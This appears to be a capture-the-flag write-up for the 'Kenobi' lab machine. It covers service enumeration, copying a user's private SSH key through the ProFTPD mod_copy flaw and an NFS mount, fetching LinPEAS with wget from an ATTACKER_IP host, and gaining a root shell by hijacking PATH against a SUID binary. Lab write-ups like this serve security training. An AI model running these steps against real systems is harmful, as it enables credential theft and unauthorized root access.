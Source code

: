 ```yaml
---
title: "Kenobi"
tags:
  - Easy
  - Linux
  - nmap
  - samba
  - nfs
  - Path Manipulation
---
```


| Difficulty |
| ---------- |
|   Easy     |

---

Let's run a basic **Nmap** scan on the server. we can run 2 nmap scans at one go, a thorough one that scans all ports (which takes a long time), as well as a faster one that only scans the top 1000 ports. The commands used are as follows:

```
### Thorough
nmap -sC -sV -p- -vv 10.10.243.180

### Quick
nmap -sC -sV -vv 10.10.243.180
```

The results of the scan tells us that **7** ports are open: **21 (FTP)**, **22 (SSH)**, **80 (HTTP)**, **111 (RPC)**, **139 (Samba)**, **445 (Samba)** and **2049 (NFS)**.

While previously, I learned to enumerate Samba shares using `enum4linux`, this time, the room tells us to use nmap scripts to do the enumeration:

```
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.243.180
```
*(port 445 was specified as it was the port that hosted Samba)*

**Results:**

![screenshot2](../assets/images/kenobi/screenshot2.png)

As we can see, **3** shares were enumerated: **IPC$**, **anonymous** and **print$**. 

We can connect to the SMB shares using `smbclient`. I tried logging into the **anonymous** share, and as the name suggests, anonymous login is enabled on it! This allowed me to log into the share without authenticating.

We can list the files on the share using `ls`:

![screenshot3](../assets/images/kenobi/screenshot3.png)

There is a text file: **log.txt**

**log.txt** was a **ProFTPD** configuration file, which gave us a lot of interesting and potentially useful information about the server. Remember that the port that FTP was running on was port **21**. Let's take note of this for now.

Next, let's tackle port **111**, which hosts **RPC**. 

*Remote Procedure Call (RPC) is a protocol that one program can use to request a service from a program located in another computer on a network without having to understand the network's details. RPC is used to call other processes on the remote systems like a local system. A procedure call is also sometimes known as a function call or a subroutine call.*

In our case, port 111 gives us access to **network file system (NFS)**. We can use nmap to enumerate it with the following scripts:

```
 nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.243.180
```

![screenshot4](../assets/images/kenobi/screenshot4.png)

From the results, we can see that **/var** is mountable! With this in mind, let's go back to the **FTP** server.

The first thing we should do is to enumerate the version of ProFtpd running. To obtain the version, we can use `nc` to connect to the FTP server:

```
nc 10.10.243.180 21
```

From the response, we know that the ProFtpd version is **1.3.5**

---

Now that we know the version of ProFtpd running, let's use a nifty tool called `searchsploit`, which is a command-line search tool for exploit-db, to find relevant exploits. Using `searchsploit` is easy:

```
searchsploit proftpd 1.3.5
```

![screenshot5](../assets/images/kenobi/screenshot5.png)

Searchsploit gave us **3** possible exploits that could be used.

If we look at the various exploits, we learn that they target the **mod_copy** module in ProFtpd. From my research, I learned that the mod_copy module implements `SITE CPFR` and `SITE CPTO` commands, which can be used to copy files/directories from one place to another on the server. 

Any unauthenticated client can leverage these commands to copy files from any part of the filesystem to a chosen destination.

Okay, so we can copy files from any part of the target machine, but what files are we interested in?

From the **log.txt** file earlier, I found out that the **private SSH key** of the user, **kenobi**, can be found in **/home/kenobi/.ssh/id_rsa**. With knowledge of the mount point, **/var**, we can mount our local machine to that directory and use it to obtain the private key! This will then allow us to access the machine via **SSH** as the user **kenobi**.

To do this, first, we use the `SITE CPFR` and `SITE CPTO` commands to copy the private key from kenobi's home folder to the **/var/tmp** folder on the target machine:

```
SITE CPFR /home/kenobi/.ssh/id_rsa
SITE CPTO /var/tmp/id_rsa
```

![screenshot6](../assets/images/kenobi/screenshot6.png)

Next, we create a directory in **/mnt** on our local machine:

```
sudo mkdir /mnt/kenobiNFS
```

We then mount the **/var** directory on the target machine onto our local machine using:

```
sudo mount 10.10.243.180:/var /mnt/kenobiNFS
```

From there, we can navigate to the **/var/tmp** directory on the target machine by visting **/mnt/kenobiNFS/** on our local machine. We can then obtain the private key file:

![screenshot7](../assets/images/kenobi/screenshot7.png)

Now that we have kenobi's private key, we can log into his SSH account. However, before doing that, we need to make sure that the file permissions are set to be **read and write by owner only**. We can do this with `chmod`:

```
chmod 600 id_rsa
```

With that done, let's now ssh into the machine:

```
ssh kenobi@10.10.243.180 -i id_rsa
```

After successfully logging in, we can obtain **user.txt** from kenobi's **home** directory.

---

Next, let's find a way to escalate our privileges. 

For this room, we will be using path variable manipulation to exploit certain SUID-bit set binaries. The room taught me how to use the `find` command to find files that have the SUID-bit set:

```
find / -perm -u=s -type f 2>/dev/null
```

However, I decided to try using a privilege-escalation automation script, [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS), to speed things up.

To transfer linpeas over to the target machine, let's host a simple HTTP server with Python on our local machine. To do so, I first `cd` into the linPEAS directory, which contained the **linpeas.sh** script that I wanted to send over. I then started the HTTP server using: 

```
python3 -m http.server
```

This will host the server on port **8000**. Next, on the target machine, I used `wget` to download the script:

```
wget http://ATTACKER_IP/linpeas.sh
```

After successfully transferring the linpeas script, remember to make it executable with `chmod +x linpeas.sh`. 

After running linpeas, I noticed that there was an interesting file that had its SUID-bit set - **/usr/bin/menu**

![screenshot8](../assets/images/kenobi/screenshot8.png)

Upon running the menu binary, we come across some interesting options:

![screenshot9](../assets/images/kenobi/screenshot9.png)

It would seem as if the binary allows us to run certain commands from within it. However, the important thing to note is that we would be running the commands as **root** (due to the SUID bit being set).

Using the command `strings`, we can look for human-readable strings within the menu binary.

**Results:**

![screenshot10](../assets/images/kenobi/screenshot10.png)

From the results, we find out that the commands run in the menu binary are done without using their full paths (e.g. not using `/usr/bin/curl` or `/usr/bin/uname`).

Hence, we can manipulate our **PATH** to exploit this fact and open a privileged shell!

To do so, we first copy the `/bin/sh` script into a new file called `curl`: 

```
echo /bin/sh > curl
```

We then ensure that it is accessible by all users:

```
chmod 777 curl
```

Next, we put its location into our **PATH**. In my case, since I created the `curl` file in **/tmp**, I'll add that directory into the PATH:

```
export PATH=/tmp:$PATH
```

Now, when `/usr/bin/menu` is run and we execute the 'status check' command, it will check our PATH to see which directory to look for the `curl` binary. It will end up using the curl binary that we created earlier on in /tmp, which actually opens a shell! 

This will cause a shell to be opened as root, since the binary is run with SUID-bit set:

![screenshot12](../assets/images/kenobi/screenshot12.png)

With that, we are able to obtain the **root.txt** from the **/root**.





